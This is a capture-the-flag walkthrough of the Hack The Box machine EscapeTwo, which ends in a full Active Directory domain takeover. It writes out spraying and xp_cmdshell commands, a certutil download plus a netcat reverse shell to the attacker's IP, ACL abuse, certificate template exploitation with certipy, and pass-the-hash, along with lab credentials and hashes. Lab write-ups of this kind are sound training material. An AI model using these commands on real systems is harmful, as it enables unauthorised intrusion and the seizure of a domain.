 # EscapeTwo HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-EscapeTwo-green?logo=hackthebox)](https://www.hackthebox.com)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/HTB/Challenges)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/HTB/Challenges)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

EscapeTwo is an easy Windows domain machine showcasing a full AD domain takeover:
- Starting with user credentials for domain enumeration and SMB share access,
- Fixing a corrupted Excel file header to extract hidden credentials,
- Using extracted credentials for MSSQL authentication and command execution (xp_cmdshell),
- Leveraging reverse shell with Netcat and certutil for lateral movement,
- Performing password spraying on WinRM and SMB for further access,
- Enumerating and abusing AD ACLs to control certificate services user,
- Exploiting misconfigured Active Directory Certificate Services (ADCS) to impersonate domain admin,
- Finally, gaining domain admin access and retrieving the root flag.

---

## Table of Contents

- [1. Initial Enumeration](#1-initial-enumeration)
- [2. SMB Share Enumeration and File Extraction](#2-smb-share-enumeration-and-file-extraction)
- [3. Repairing Corrupted Excel File](#3-repairing-corrupted-excel-file)
- [4. Password Spraying and MSSQL Access](#4-password-spraying-and-mssql-access)
- [5. Enabling xp_cmdshell and Reverse Shell](#5-enabling-xp_cmdshell-and-reverse-shell)
- [6. Lateral Movement Using WinRM](#6-lateral-movement-using-winrm)
- [7. Active Directory Enumeration with BloodHound](#7-active-directory-enumeration-with-bloodhound)
- [8. ACL Abuse and ADCS Enumeration](#8-acl-abuse-and-adcs-enumeration)
- [9. Exploiting Vulnerable Certificate Template](#9-exploiting-vulnerable-certificate-template)
- [10. Domain Admin Access and Root Flag](#10-domain-admin-access-and-root-flag)

---

## 1. Initial Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.232.128 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.232.128
```

- Scans all TCP ports, extracts open ports, then runs version detection and default NSE scripts on those ports.
- Open services included SMB(445), LDAP(389), Kerberos(88), and MSSQL(1433).
 ```
 echo "10.129.232.128 sequel.htb dc01.sequel.htb" | sudo tee -a /etc/hosts`
 ```
- Adds IP to hosts for domain resolution.

---

## 2. SMB Share Enumeration and File Extraction
```
netexec smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --shares
impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.232.128
use Accounting Department
ls
get accounts.xlsx`
```
- Lists SMB shares accessible with user `rose`.
- Downloads `accounts.xlsx` – a corrupted Excel file suspected to contain secrets.

---

## 3. Repairing Corrupted Excel File
```
file accounts.xlsx
7z x accounts.xlsx
hexedit accounts.xlsx
xxd accounts.xlsx
```
- Determine file type: `.xlsx` files are ZIP archives.
- Extraction fails due to corrupted header bytes `50 48 04 03`.
- Manual hex edit to fix header to standard ZIP magic bytes `50 4B 03 04`.
- File opens successfully, revealing credentials inside.

---

## 4. Password Spraying and MSSQL Access

`netexec smb 10.129.232.128 -u users.txt -p pass.txt`

- Password spray with user and password lists to find valid combinations (finds valid user `oscar`).

```
netexec mssql 10.129.232.128 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.232.128
```
- Connect to MSSQL with high-privilege `sa` account using found credentials.

Enable command execution:
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
- Enables `xp_cmdshell` procedure to run OS commands, reveals `sequel\sql_svc` user.

---

## 5. Enabling xp_cmdshell and Reverse Shell
```
nc -lnvp 4455
python3 -m http.server 4000
```
- Start a Netcat listener and simple HTTP server locally.
- Start a Netcat listener and simple HTTP server locally.

```
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.96:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.96 4455';
```
- Downloads Netcat to victim using `certutil`.
- Executes Netcat to connect back and spawn a reverse shell on attacker machine.

---

## 6. Lateral Movement Using WinRM
```
net user
nxc winrm sequel.htb -u Users.txt -p 'WqSZAF6CysDQbGb3'
evil-winrm -i 10.129.232.128 -u ryan -p 'WqSZAF6CysDQbGb3'
```
- Enumerate users on Windows.
- Spray Password on WinRM port 5985 to find valid login (`ryan`).
- Use Evil-WinRM to spawn remote PowerShell session as `ryan`.
- Retrieve user flag for confirmation.

---

## 7. Active Directory Enumeration with BloodHound

`bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.232.128 -c all --zip`

- Perform comprehensive enumeration of AD structure, permissions, and sessions.
- Identify privilege escalation paths involving `ca_svc` account.

---

## 8. ACL Abuse and ADCS Enumeration
```
python owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
python dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
```
- Change ownership and grant `FullControl` to `ryan` over `ca_svc`.
- Also we can reset `ca_svc` password via PowerView or similar tools.

---

## 9. Exploiting Vulnerable Certificate Template
 ```
 certipy shadow -account ca_svc -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' auto 
 certipy find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -text
 certipy template -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -template 'DunderMifflinAuthentication' -save-old
 certipy req -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn     
 administrator@sequel.htb -dns dc01.sequel.htb	
 certipy auth -pfx administrator_dc01.pfx
```
- Enumerate CA templates and spot misconfigurations.
- Modify template to remove approval requirement and enable client authentication.
- Request a certificate impersonating administrator.
- Authenticate with the certificate and extract domain admin NTLM hash.

---

## 10. Domain Admin Access and Root Flag
```
evil-winrm -i 10.128.124.12 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
whoami
type C:\Users\Administrator\Desktop\root.txt
```
- Use domain admin NTLM hash for pass-the-hash WinRM login.
- Gain full domain admin shell and capture root flag.

---

## Tools & References

- **NetExec (nxc):** Network service exploitation and spraying
- **Impacket:** SMB and MSSQL clients
- **BloodHound:** AD permission visualizer and enumeration
- **Certipy:** ADCS enumeration and exploitation
- **Evil-WinRM:** Remote PowerShell shell over WinRM
- **Standard Linux tools:** `nmap`, `netcat`, `file`, `7z`, `hexedit`

---

## Final Notes

- Master the flow from enumeration → foothold → lateral movement → escalation.
- ADCS misconfiguration remains a powerful vector in domain takeovers.
- Proper ACL management and template hardening are critical defenses.

---




